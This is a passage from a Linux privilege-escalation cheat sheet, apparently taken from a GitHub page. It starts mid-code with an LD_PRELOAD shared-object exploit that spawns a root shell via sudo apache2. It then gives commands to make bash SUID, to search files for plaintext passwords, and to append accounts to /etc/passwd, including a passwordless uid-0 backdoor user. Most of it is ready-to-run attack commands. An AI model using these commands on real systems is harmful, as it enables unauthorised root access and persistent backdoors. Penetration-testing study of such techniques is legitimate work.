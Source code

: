     void _init() { 
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
    }
    // gcc -fPIC -shared -o shell.so shell.c -nostartfiles
    // sudo LD_PRELOAD=/home/admin/shell.so apache2
    ```
  - Symlinks
  - Get root shell from a limited account
    - From root: `chmod +s /bin/bash`
    - From limited account: `/bin/bash`
- Find plain text username / password
    ```bash 
    grep -i user [filename]
    grep -i pass [filename]
    grep -C 5 "password" [filename]
    find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
    ```
- Commands with sudo: `sudo -l`
- New file Permissions: `umask`
- Generate password hash (md5): `openssl passwd -1` `echo 'joske' | openssl passwd -1 -stdin`
- Generate password hash (sha256): `python -c "import crypt; print crypt.crypt('joske')"`
- Add user with passwd
    ```bash
    echo 'user2:*:1002:1003:,,,:/home/user2:/bin/bash' >> /etc/passwd
    passwd user2

    echo "user2:`openssl passwd -1 -salt user3 pass123`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`mkpasswd -m SHA-512 pass`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`perl -le 'print crypt("pass123", "abc")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

    echo "user2:`php -r "print(crypt('aarti','123') . \"\n\");"`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd
    ```
- Add root user
    ```bash
    adduser username
    usermod -aG sudo username
    ```
    ```bash
    echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd
    ```
- Change user password
    ```bash
    echo "trevelyn:trevelyn"| /usr/sbin/chpasswd
    ```
